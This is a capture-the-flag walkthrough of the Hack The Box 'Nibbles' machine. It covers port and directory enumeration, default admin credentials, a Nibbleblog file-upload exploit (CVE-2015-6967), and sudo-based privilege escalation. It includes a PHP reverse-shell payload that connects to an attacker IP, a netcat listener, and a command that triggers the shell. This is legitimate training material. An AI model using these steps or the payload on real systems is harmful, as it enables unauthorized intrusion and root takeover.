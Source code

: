 ## HTB: Nibbles Walkthrough

**Difficulty:** Easy  
**OS:** Linux  
**Release Date:** [Insert if known]  

---

### 🕵️ Enumeration

#### 🔍 Nmap Scan
```bash
sudo nmap -sV -sC -sS -oA scan/result $IP
```
Discovered open ports:
- **22/tcp** - [SSH](SSH)
- **80/tcp** - [HTTP](HTTP)

### 🌐 Web Enumeration
Visiting the site on port 80 reveals a PHP-based web application. View page source shows a hidden directory:

**Interesting Directory:** `/nibbleblog/`

#### 📂 Directory Fuzzing
```bash
gobuster dir --url "http://$IP/nibbleblog/" -w /usr/share/dirb/wordlists/small.txt -x php
```
Discovered:
- `/admin.php` – Admin login page

---

### 🔐 Exploitation

#### 🔑 Default Credentials & Exploit
- Found **default credentials**: `admin:nibbles`
- Confirmed to work on `/nibbleblog/admin.php`
- Vulnerable version: **Nibbleblog 4.0.3**
- Public exploit: CVE-2015-6967 – Arbitrary File Upload

#### 🐚 Reverse Shell Upload
Upload a PHP reverse shell through the **my_image** plugin:

**Payload (Replace IP and port):**
```php
<?php
// PHP Reverse Shell
$sock=fsockopen("<ATTACKER_IP>",9001);
$proc=proc_open("/bin/sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Start listener:
```bash
nc -nlvp 9001
```

Trigger the shell:
```bash
curl http://$IP/nibbleblog/content/private/plugins/my_image/image.php
```

---

### 🧗 Privilege Escalation

#### 🔍 Finding Personal Files
Found file: `personal.zip`  
Unzipped it contains a **bash script** monitoring resources.

```bash
sudo -l
```
Shows we can run the monitoring script **as root without password**.

#### 🛠️ Modify Script
Append reverse shell code or just spawn root shell:
```bash
#!/bin/bash
bash
```
Upload and overwrite the original script. Then execute it with sudo:
```bash
sudo /path/to/monitoring_script.sh
```

### 🏁 Root Access
You now have a **root shell** on the machine.

---

### 📝 Summary
- Gained web access using default creds on Nibbleblog.
- Exploited CVE-2015-6967 to upload a reverse shell.
- Found a user-owned zip file containing a script run as root.
- Modified script to spawn a root shell.

Cheers 🥂

